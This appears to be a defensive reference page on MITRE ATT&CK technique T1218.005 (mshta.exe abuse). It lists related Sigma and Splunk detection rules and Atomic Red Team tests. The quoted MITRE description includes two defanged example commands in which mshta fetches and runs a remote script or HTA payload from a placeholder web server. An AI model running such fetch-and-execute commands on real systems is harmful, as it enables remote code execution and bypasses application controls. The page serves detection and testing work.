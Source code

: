 # T1218.005: Mshta
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/005)**
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>
## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:**1

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [no defensive relations yet](https://d3fend.mitre.org/techniques/d3f:nodefensiverelationsyet)

## Technical Controls (Detection Rules)
### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 2330

**ATT&CK-mapped resources for this (sub)technique:**8

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/SigmaHQ/sigma/tree/master/rules):

* [sigma/rules/windows/create_remote_thread/sysmon_cactustorch.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_lethalhta.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lethalhta.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_csc.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_csc.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml)

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 1393

**ATT&CK-mapped resources for this (sub)technique:**12

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/splunk/security_content/tree/develop/detections):

* [security_content/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml)
* [security_content/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml)
* [security_content/detections/endpoint/detect_mshta_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_inline_hta_execution.yml)
* [security_content/detections/endpoint/suspicious_mshta_child_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_child_process.yml)
* [security_content/detections/endpoint/detect_mshta_url_in_command_line.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_url_in_command_line.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_child_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_child_process.yml)
* [security_content/detections/endpoint/office_product_spawn_cmd_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/office_product_spawn_cmd_process.yml)
* [security_content/detections/endpoint/suspicious_mshta_spawn.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_spawn.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_command_line_url.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_command_line_url.yml)
* [security_content/detections/endpoint/detect_rundll32_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_inline_hta_execution.yml)
* [security_content/detections/endpoint/detect_mshta_renamed.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_renamed.yml)


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped tests:** 1161

**ATT&CK-mapped resources for this (sub)technique:**10

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.005/T1218.005.yaml):

* Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
* Mshta executes VBScript to execute malicious command
* Mshta Executes Remote HTML Application (HTA)
* Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
* Invoke HTML Application - Jscript Engine Simulating Double Click
* Invoke HTML Application - Direct download from URI
* Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
* Invoke HTML Application - JScript Engine with Inline Protocol Handler
* Invoke HTML Application - Simulate Lateral Movement over UNC Path
* Mshta used to Execute PowerShell


